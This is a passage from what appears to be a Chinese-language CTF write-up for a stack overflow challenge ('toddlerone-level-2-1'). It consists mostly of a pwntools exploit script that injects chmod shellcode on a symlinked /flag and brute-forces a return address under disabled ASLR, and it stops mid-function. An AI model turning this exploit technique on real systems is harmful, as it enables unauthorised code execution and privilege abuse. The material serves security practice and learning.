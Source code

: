 这题没回显，所以问题就是返回地址是什么了。因为没开 ASLR，每次栈的基地址都是相同的，所以这里我直接采用爆破的方式了。

## Exploit

```python
#!/usr/bin/python3

from pwn import ELF, asm, context, gdb, log, os, p64, process, remote, shellcraft, time

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-2-1"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""

ret_addr = 0x7FFFFFFDE000


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
    try:
        target.send(payload)
    except Exception as e:
        log.exception(f"An error occurred while sending payload: {e}")


def construct_payload(padding_size):
    shellcode = asm(shellcraft.chmod("f", 0o4))
    shellcode_length = len(shellcode)
    shellcode += b"".ljust(padding_size - shellcode_length, b"A")
    shellcode += p64(ret_addr)

    return shellcode


def attack(target, payload):
    try:
        os.system("ln -s /flag f")

        payload_size = f"{len(payload)}".encode()
        target.sendlineafter(b"Payload size: ", payload_size)

        target.recvuntil(b"Send your payload")
        send_payload(target, payload)
        target.recvall(timeout=5)

        try:
```